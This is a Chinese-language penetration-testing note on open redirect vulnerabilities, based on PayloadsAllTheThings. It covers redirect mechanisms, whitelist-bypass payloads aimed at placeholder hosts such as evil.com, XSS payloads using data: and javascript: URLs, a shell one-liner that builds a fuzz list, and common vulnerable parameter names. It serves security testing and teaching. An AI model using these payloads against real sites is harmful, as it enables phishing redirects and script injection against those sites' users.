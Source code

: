 ### 简介

任意重定向(Open Redirection)

### 漏洞原理

* 跳转方式1 HTTP Response Code & Header
  * HTTP Response Status Code - Redirection `3xx`
    - [300 Multiple Choices](https://httpstatuses.com/300)
    - [301 Moved Permanently](https://httpstatuses.com/301)
    - [302 Found](https://httpstatuses.com/302)
    - [303 See Other](https://httpstatuses.com/303)
    - [304 Not Modified](https://httpstatuses.com/304)
    - [305 Use Proxy](https://httpstatuses.com/305)
    - [307 Temporary Redirect](https://httpstatuses.com/307)
    - [308 Permanent Redirect](https://httpstatuses.com/308)
  * HTTP Response Header
    - `Location: `
* 跳转方式2 `meta`标签
    - 绝对路径 `<meta http-equiv="Refresh" content="0; url=https://www.w3docs.com" />` 0秒跳转
    - 相对路径 `<meta http-equiv="Refresh" content="3.5; url=../" />` 3.5秒跳转
* 跳转方式3 Javascript实现跳转
  * 1.`window.location.href`
    * 绝对路径 `window.location.href='http://evil.com';`
    * 相对路径 `window.location.href='../../';`  会从当前url`http://a.com/1/2/3/`跳转到`http://a.com/1/`
      * 如果`../`非常多则跳转到`http://a.com/`
  * 2.待补充


**触发漏洞**
```
访问
https://famous-website.tld/signup?redirectUrl=https://evil.tld/account
浏览器访问famous-website.tld 如果被重定向到域evil.tld 则存在任意重定向漏洞
```

### 漏洞影响

* 任意重定向(Open Redirection)漏洞影响
  * 跳转 - 借用合法网站aaa.com的域名，跳转到"钓鱼"等其他网站
  * XSS

### 测试方法

有一定安全意识的开发人员会对"跳转目的值"使用"关键字白名单"进行校验，我们尝试利用这些"关键字白名单"来绕过不够严谨的校验

尝试找到并利用aaa.com的任意重定向漏洞 跳转到evil.com

* 手工测试 - 任意重定向漏洞导致的跳转 - "跳转目的值"
  * 使用特定子域名绕过不严谨的"关键字白名单"校验   `www.aaa.com.evil.com`
  * 使用`@`绕过白名单机制                        `http://www.aaa.com@evil.com/`
  * 使用参数污染 绕过白名单机制                   `?next=whitelisted.com&next=evil.com`
  * 使用子文件夹名 绕过白名单机制                 `http://www.evil.com/http://www.aaa.com/` `http://www.evil.com/folder/www.aaa.com`
  * 使用CRLF绕过对字符串`javascript`的检测和限制  `java%0d%0ascript%0d%0a:alert(0)`
  * 使用`//`绕过对字符串`http`的检测和限制        `//evil.com`
  * 使用`https:`绕过对字符串`//`的检测和限制      `https:evil.com`
  * 使用`\/\/` 绕过对字符串`//`的检测和限制       `\/\/evil.com/` `/\/evil.com/`
  * 使用`。`即%E3%80%82绕过对`.`的检测和限制      `/?redir=evil。com`  `//evil%E3%80%82com`
  * 使用%00绕过黑名单机制                        `//evil%00.com`
  * ...
* 手工测试 - 任意重定向漏洞导致的XSS
  * XSS from Open URL  `";alert(0);//`
  * XSS from `data://` wrapper   `http://www.aaa.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==`
  * XSS from `javascript://` wrapper  `http://www.aaa.com/redirect.php?url=javascript:prompt(1)`
* 自动化 - 生成"跳转目的值"字典 进行fuzz 测试任意重定向漏洞 (跳转+XSS)
  * 进入文件夹`/PayloadsAllTheThings/Open redirect`
  * 执行命令 生成针对aaa.com的"任意重定向漏洞"fuzz字典 `Open-Redirect-payloads-burp-aaa.com.txt`

```
WHITELISTEDDOMAIN="www.aaa.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```


**常出现跳转漏洞的功能点**
```
1.登录、注销处的URL跳转
```

**常出现跳转漏洞的URL格式**
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

### SDL - 防御与修复方案

* 如果有非法字符return false
* 严格限制参数值内容-"关键字白名单"
* 严格限制参数值长度
* ...

>参考[PayloadsAllTheThings/Open Redirect/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Open%20Redirect/README.md)
